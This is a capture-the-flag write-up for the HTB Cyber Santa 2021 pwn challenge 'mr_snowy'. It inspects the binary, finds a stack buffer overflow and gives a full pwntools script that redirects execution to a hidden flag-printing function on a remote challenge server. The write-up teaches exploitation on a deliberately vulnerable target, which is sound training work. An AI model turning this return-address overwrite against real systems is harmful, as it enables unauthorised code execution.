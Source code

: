 The files that we got in order to solve this challenge were:
```
mr_snowy          flag.txt
```
---
## File inspection

The `flag.txt` file is clearly made for testing since opening it will show us its content as
```
HTB{f4k3_fl4g_4_t3st1ng}
```
\
***The file that we are most interested in is `mr_snowy`***\
\
In order to start working on this challenge, we need to inspect the file and see what we are dealing with. Since it is a `pwn` challenge, we can assume the given file is an ELF.
To make sure we run
```
file mr_snowy
```
which results in:
![result for running "file mr_snowy"](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/file_ss.png)\
From this we can see that the file is `not stripped` which is great news to us, meaning we can find a `main` function that hopefully will allow us to identify an exploit.

Next we want to see if there are any clues or maybe even the flag itself in the strings of the files so we run
```
strings mr_snowy
```
which results in a bunch of random strings, mostly useless with the exception of:
![interesting strings](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/strings_ss.png)\
This is perhaps a clue that there is a function within the file that calls `flag.txt` and further more potentially prints it out for us.

Now we already have an idea of what this challenge might want us to do, which is get to the function that prints out the flag and thus complete the challenge. But that would be too easy, wouldn't it?
Before we fire up `ghidra` and see what the deal is, we have two more things left to do. Checking the security of the file and running it.

```
checksec mr_snowy
```
which results in:\
![result of "checksec mr_snowy"](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/checksec_ss.png)\
Again, wonderful news! No PIE will make our life easier.

Now let's run it
```
chmod +x mr_snowy
./mr_snowy
```
![running it](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_1.png)\
\
We have two options. Choosing `2` will display\
![choosing 2](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_2.png)\
\
Hm.. wrong answer. Let's try `1`\
![choosing 1](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_1.png)\
\
Ok! Progress. Let's choose `2`\
![choosing 1 then 2](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_1_then_2.png)\
\
Uh oh, that wasn't the right choice. Let's go back and choose `1`\
![choosing 1 then 1](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_1_then_1.png)\
That did not work either... So that means that no matter what options you will choose, you cannot get the flag. There must be another answer to this.

---
## Buffer overflow

Whenever I see ELF files, I always try to see if I can overflow the buffer. Let's try to do that.
\
We will generate a string of 1000 which should be sufficient to test overflowing
```
pwn cyclic 1000
```
with the result
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa
abtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadm
aadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaaf
gaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagya
agzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaais
aaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaaj
```
Now we will write that huge string instead of `1` or `2` in the first menu option

![buff overflow 1](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/buffer_overflow_1.png)\
It seems like it did not work\
\
Let's try the second menu\
![buff overflow 2](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/buffer_overflow_2.png)\
Bingo! `Segmentation fault` is what we wanted. It indicates that we were able to flow the buffer and now we can write a script to potentially exploit it.\
\
Before we do that, we just need to fire up `ghidra` and check the code quickly. I have my ghidra folder in `/opt/ghidra_10.0.4_PUBLIC/` so I will run
```
/opt/ghidra_10.0.4_PUBLIC/ghidraRun
```
\
We create a project quick and analyze `mr_snowy`. Indeed in the `functions` tab we can see `deactivate_camera` with the following source code:
```
void deactivate_camera(void)

{
  char acStack104 [48];
  FILE *local_38;
  char *local_30;
  undefined8 local_28;
  int local_1c;
  
  local_1c = 0x30;
  local_28 = 0x2f;
  local_30 = acStack104;
  local_38 = fopen("flag.txt","rb");
  if (local_38 == (FILE *)0x0) {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n",1,0x3f,stdout);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  fgets(local_30,local_1c,local_38);
  puts("\x1b[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ",1,0x3a,stdout);
  puts(local_30);
  fclose(local_38);
  return;
}
```
\
So this is the function that will print our flag, but inspecting the `main` we notice that it isn't called anywhere.
\

---
## The exploit
Thus the solution is this: ***we need to execute the function `deactivate_camera` by overflowing the buffer and returning to the address of the wanted function.***
\
In order to do this I wrote a [python script](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/mr_snowy/mr_snowy.py)\
\
***This code is based on [this template](https://github.com/Crypto-Cat/CTF/blob/main/pwn/official_template.py) created by [Crypto-Cat](https://github.com/Crypto-Cat)***
```
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter('>', '1')
    p.sendlineafter('>', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.read(p.corefile.rsp, 4))  # x86
    # ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './mr_snowy'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(1000))

# Start program
#io = process()
io = remote('138.68.174.27', 32009)

rop = ROP(elf)

# Build the payload
payload = flat (
    {offset: elf.functions.deactivate_camera}
)

# Send the payload
io.sendlineafter('>', '1')
io.sendlineafter('>', payload)

io.interactive()
```
\
Commenting
```
io = remote('138.68.174.27', 32009)
```
and uncommenting
```
io = process()
```
will allow us to run the script locally and see that it prints 
```
[+] Here is the secret password to deactivate the camera: HTB{f4k3_fl4g_4_t3st1ng}
```
and running it on the target prints our flag.


